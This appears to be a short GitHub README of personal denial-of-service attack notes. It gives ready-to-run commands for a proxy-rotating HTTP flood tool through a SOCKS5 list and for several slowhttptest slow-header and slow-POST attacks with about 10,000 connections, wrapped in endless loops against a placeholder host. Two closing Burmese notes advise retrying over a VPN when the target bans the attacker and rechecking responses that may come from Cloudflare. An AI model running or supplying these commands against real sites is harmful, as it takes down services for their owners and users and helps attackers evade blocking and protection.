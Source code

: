 # attack_note

``` python3 start.py bypass https://?.com 5 101 socks5.txt 100 3600 true ```

``` while true; do python3 start.py bypass https://?.com 5 101 socks5.txt 100 3600 true; done ```



``` slowhttptest -c 10239 -l 36000 -H -x 24 -p 3 -r 20000 -t GET -i 10 -u http://?.com ```

``` while true; do slowhttptest -H -c 10239 -r 15321 -l 86400 -u http://?.com -s 512 -t GET -v 3; done ```

``` while true; do slowhttptest -B -c 10239 -r 15321 -l 86400 -u http://?.com -s 4096 -t POST -f application/x-www-form-urlencoded -x 4 -v 2; done; ```


# Other notes

``` 403 အမြဲပြနေတာက Server က Ban လို့ -> VPNနဲ့ ပြန်စမ်းကြည့် ```

``` 200 တွေဆိုလည်း ပြန်စစ်ဖို့လို  Cloudflare ဆီက လာတာ ဖြစ်နိုင်```
